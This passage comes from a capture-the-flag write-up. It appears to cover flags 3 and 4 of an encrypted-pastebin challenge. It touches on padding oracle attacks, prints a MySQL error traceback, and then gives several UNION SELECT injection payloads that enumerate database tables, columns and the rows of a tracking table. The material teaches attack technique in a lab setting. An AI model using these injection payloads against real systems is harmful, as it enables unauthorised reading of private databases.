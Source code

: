 This main stage of finding the proper value based on the padding error is very similar to how we can decrypt the post identifier when obtaining our second flag. They are both padding oracle attacks, but exploiting slightly different parts of the decryption algorithm.

## Flag 3

Encrypting `'{ "id": "1" }'` and sending it as the post identifier yields an exception, but also our third flag!

```python
Attempting to decrypt page with title: ^FLAG^<flag 3>$FLAG$
```

## Flag 4

Following up on our SQL Injection theory and replacing our id with a single quote `'{ "id": "'" }'`, encrypting and sending it as the post identifier yields:

```python
Traceback (most recent call last):
  File "./main.py", line 71, in index
    if cur.execute('SELECT title, body FROM posts WHERE id=%s' % post['id']) == 0:
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/cursors.py", line 255, in execute
    self.errorhandler(self, exc, value)
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/connections.py", line 50, in defaulterrorhandler
    raise errorvalue
ProgrammingError: (1064, "You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''' at line 1")
```

This proves we have an SQL Injection in our hands ad we even know the SQL query being used, which is great! It's time to start mapping the system's database.

**Enumerating database tables**

```json
{ "id": "NULL UNION SELECT GROUP_CONCAT(table_name) AS title, NULL AS body FROM information_schema.tables WHERE table_schema=database()" }
```

We find a table called `tracking`. It seems that every time we access a post a new tracking event gets inserted on that table.

**Enumerating database columns**

```json
{ "id": "NULL UNION SELECT GROUP_CONCAT(column_name) as title, NULL as body FROM information_schema.columns WHERE table_name='tracking'" }
```

We find out that the `tracking` table has the column `headers`.

**Enumerating rows in a table**

```json
{ "id": "NULL UNION SELECT GROUP_CONCAT(headers) AS title, '' AS body FROM tracking" }
```
